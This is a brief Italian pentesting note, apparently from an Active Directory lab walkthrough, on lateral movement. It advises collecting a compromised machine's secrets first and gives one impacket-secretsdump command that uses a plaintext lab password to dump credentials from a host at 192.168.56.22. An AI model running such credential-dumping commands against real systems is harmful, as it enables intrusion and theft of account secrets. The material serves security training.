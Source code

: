 ### **Lateral Movement**
Prima di saltare da una macchina all'altra è essenziale ottenere tutti i "Secrets" della macchina pwnata. Ecco una lista dei possibili passi da fare
*Impacket-secretsdump*
```bash
impacket-secretsdump NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22
```